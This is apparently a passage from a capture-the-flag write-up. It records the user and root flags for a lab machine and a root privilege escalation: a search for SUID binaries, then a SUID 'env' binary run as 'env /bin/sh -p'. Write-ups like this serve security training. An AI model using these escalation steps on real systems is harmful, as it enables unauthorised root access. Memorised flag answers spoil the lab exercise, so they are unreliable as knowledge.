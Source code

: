 ```
ls
pics
user.txt
cat user.txt
90d6f992585815ff991e68748c414740
```
**Question**
#### user.txt
**Answer** 
#### 90d6f992585815ff991e68748c414740
---
### Privilege escalation

When I try **sudo -l**, it doesn't work.Le's check the SUID bit set.
```
 find / -user root -perm -u=s 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
```
Now we can check [gtfobins](https://gtfobins.github.io/gtfobins/env/) and find something with **SUID**
```
sudo install -m =xs $(which env) .

./env /bin/sh -p
```
```
namelessone@anonymous:~$ env /bin/sh -p
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt  
4d930091c31a622a7ed10f27999af363
```
**Question**
#### root.txt
**Answer** 
#### 4d930091c31a622a7ed10f27999af363